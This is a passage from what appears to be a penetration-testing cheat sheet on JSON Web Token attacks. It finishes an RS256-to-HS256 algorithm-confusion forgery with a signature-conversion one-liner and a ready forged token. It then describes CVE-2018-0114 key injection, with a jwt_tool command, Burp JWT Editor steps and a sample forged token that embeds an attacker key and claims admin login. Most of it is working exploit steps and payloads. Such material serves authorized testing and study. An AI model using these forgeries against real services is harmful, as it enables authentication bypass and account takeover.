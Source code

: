         (stdin)= 8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0
        ```

    3. Convert signature (Hex to "base64 URL")

        ```powershell
        $ python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0')).replace('=','')\")"
        ```

    4. Add signature to edited payload

        ```powershell
        [HEADER EDITED RS256 TO HS256].[DATA EDITED].[SIGNATURE]
        eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ.j0IbNR62H_Im34jVJqfpubt7gjlojB-GLyYaDFiJEOA
        ```


### JWT Signature - Key Injection Attack (CVE-2018-0114)

> A vulnerability in the Cisco node-jose open source library before 0.11.0 could allow an unauthenticated, remote attacker to re-sign tokens using a key that is embedded within the token. The vulnerability is due to node-jose following the JSON Web Signature (JWS) standard for JSON Web Tokens (JWTs). This standard specifies that a JSON Web Key (JWK) representing a public key can be embedded within the header of a JWS. This public key is then trusted for verification. An attacker could exploit this by forging valid JWS objects by removing the original signature, adding a new public key to the header, and then signing the object using the (attacker-owned) private key associated with the public key embedded in that JWS header.


**Exploit**:
* Using [ticarpi/jwt_tool]
    ```ps1
    python3 jwt_tool.py [JWT_HERE] -X i
    ```
* Using [portswigger/JWT Editor](#)
    1. Add a `New RSA key`
    2. In the JWT's Repeater tab, edit data
    3. `Attack` > `Embedded JWK`

**Deconstructed**:
```json
{
  "alg": "RS256",
  "typ": "JWT",
  "jwk": {
    "kty": "RSA",
    "kid": "jwt_tool",
    "use": "sig",
    "e": "AQAB",
    "n": "uKBGiwYqpqPzbK6_fyEp71H3oWqYXnGJk9TG3y9K_uYhlGkJHmMSkm78PWSiZzVh7Zj0SFJuNFtGcuyQ9VoZ3m3AGJ6pJ5PiUDDHLbtyZ9xgJHPdI_gkGTmT02Rfu9MifP-xz2ZRvvgsWzTPkiPn-_cFHKtzQ4b8T3w1vswTaIS8bjgQ2GBqp0hHzTBGN26zIU08WClQ1Gq4LsKgNKTjdYLsf0e9tdDt8Pe5-KKWjmnlhekzp_nnb4C2DMpEc1iVDmdHV2_DOpf-kH_1nyuCS9_MnJptF1NDtL_lLUyjyWiLzvLYUshAyAW6KORpGvo2wJa2SlzVtzVPmfgGW7Chpw"
  }
}.
{"login":"admin"}.
[Signed with new Private key; Public key injected]
```
